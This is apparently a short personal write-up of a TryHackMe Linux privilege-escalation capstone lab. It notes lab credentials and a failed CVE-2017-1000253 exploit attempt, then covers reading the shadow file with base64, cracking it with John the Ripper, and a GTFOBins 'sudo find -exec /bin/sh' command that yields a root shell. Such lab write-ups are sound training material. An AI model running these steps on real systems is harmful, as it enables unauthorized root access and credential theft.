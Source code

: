 # Linux Privilege Escalation Captstone

Start SSH:
User: leonard
Pass: Penny123

Enumerate

/proc/version

gives us Linux Kernel 3.10.0

Exploit CVE 2017-1000253:
    I couldn't get this to work succesfully though I compiled and ran it.
First I started a http.Server on my computer and uploaded the exploit and the rootshell.c file
Then use gcc to compile rootshell.c on the remote system
Then use xxd to make the header rootshell.h
Then compile the exploit
Chmod +x  exploit
and run
No dice: died in main 259.

run linpeas...

base64 vulnerability:
use base64 to read shadow file.
Copy shadow of missy and passwd entry of missy
unshadow on local machine
john the ripper on local machine with rockyou.txt
password is ........
get flag 1:
THM-42828719920544


Mi ssy can run /usr/bin/find as sudo with no password (does not work with PATH find )

so from GTFO bin we modify the sudo find command to:

sudo /usr/bin/find . -exec /bin/sh \; -quit 

And voila:

sh-4.2$ sudo /usr/bin/find . -exec /bin/sh \; -quit
sh-4.2# whoami
root
sh-4.2# find / -name flag*.txt 2>/dev/null
/home/missy/Documents/flag1.txt
/home/rootflag/flag2.txt
sh-4.2# cat /home/rootflag/flag2.txt
THM-***************168824782390238***************
